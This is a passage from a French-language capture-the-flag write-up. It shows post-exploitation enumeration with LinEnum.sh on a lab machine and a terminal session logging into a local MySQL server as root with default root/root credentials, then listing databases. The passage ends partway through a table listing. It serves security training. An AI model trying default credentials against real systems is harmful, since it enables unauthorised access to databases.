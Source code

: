 En fouillant dans les dossiers on voit vite que ça va être un vrai supplice d'énumérer à la mano les fichiers. Le créateur du CTF a du se connecter à chaque account via l'interface graphique et lancer différentes applis (Firefox notamment) du coup on trouve beaucoup de fichiers qui nous sont inutiles.  

[LinEnum.sh](https://github.com/rebootuser/LinEnum) fera pour nous le gros du boulot.  

The MySQL way
-------------

```plain
[+] We can connect to the local MYSQL service with default root/root credentials!
mysqladmin  Ver 8.42 Distrib 5.7.26, for Linux on x86_64
Copyright (c) 2000, 2019, Oracle and/or its affiliates. All rights reserved.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Server version          5.7.26-0ubuntu0.18.04.1
Protocol version        10
Connection              Localhost via UNIX socket
UNIX socket             /var/run/mysqld/mysqld.sock
Uptime:                 44 min 0 sec

Threads: 1  Questions: 6  Slow queries: 0  Opens: 105  Flush tables: 1  Open tables: 98  Queries per second avg: 0.002
```

On peut utiliser ces credentials pour fouiller dans le base SQL :  

```plain
user6@osboxes:/var/www/html$ mysql -u root -p
Enter password:
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 8
Server version: 5.7.26-0ubuntu0.18.04.1 (Ubuntu)

Copyright (c) 2000, 2019, Oracle and/or its affiliates. All rights reserved.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| sys                |
| user               |
+--------------------+
5 rows in set (0.05 sec)

mysql> use user;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;
+----------------+
| Tables_in_user |
```